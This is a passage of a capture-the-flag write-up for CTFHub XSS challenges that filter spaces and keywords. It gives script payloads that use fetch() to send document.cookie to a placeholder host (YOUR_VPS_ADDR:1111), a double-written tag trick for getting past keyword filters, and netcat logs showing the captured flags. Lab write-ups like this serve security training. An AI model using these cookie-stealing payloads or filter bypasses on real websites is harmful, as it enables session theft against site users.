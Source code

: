 ```shell
root@-6ca7eb:~# nc -lvp 1111
Listening on [0.0.0.0] (family 0, port 1111)
Connection from 222.186.57.91 10148 received!
GET /flag%3Dctfhub%7B7e36e6c4635a1b3893c4f9b0%7D HTTP/1.1
Host: YOUR_VPS_ADDR:1111
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.138 Safari/537.36
Accept: */*
Origin: http://challenge-648e4b5b0920e51b.sandbox.ctfhub.com:10800
Referer: http://challenge-648e4b5b0920e51b.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

flag: `ctfhub{7e36e6c4635a1b3893c4f9b0}`

### XSS - 过滤空格

```
http://challenge-4f558d3ce182d603.sandbox.ctfhub.com:10800/?name=

bob</h1><script>fetch('http://YOUR_VPS_ADDR:1111/'+document.cookie)</script><h1>emm
```


```shell
root@-6ca7eb:~# nc -lvp 1111
Listening on [0.0.0.0] (family 0, port 1111)
Connection from 222.186.57.91 30331 received!
GET /flag=ctfhub%7B6c4a04e48390234eab804ca9%7D HTTP/1.1
Host: YOUR_VPS_ADDR:1111
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.138 Safari/537.36
Accept: */*
Origin: http://challenge-4f558d3ce182d603.sandbox.ctfhub.com:10800
Referer: http://challenge-4f558d3ce182d603.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

flag: `ctfhub{6c4a04e48390234eab804ca9}`

### XSS - 过滤关键词

试一下双写能绕过

```
bob</h1><imimgg src=x ononerrorerror="alert(1)"><h1>emm
```

```
bob</h1>
<imimgg src=x ononerrorerror="fetch('http://YOUR_VPS_ADDR:1111/'+escape(document.cookie))"><h1>emm
```
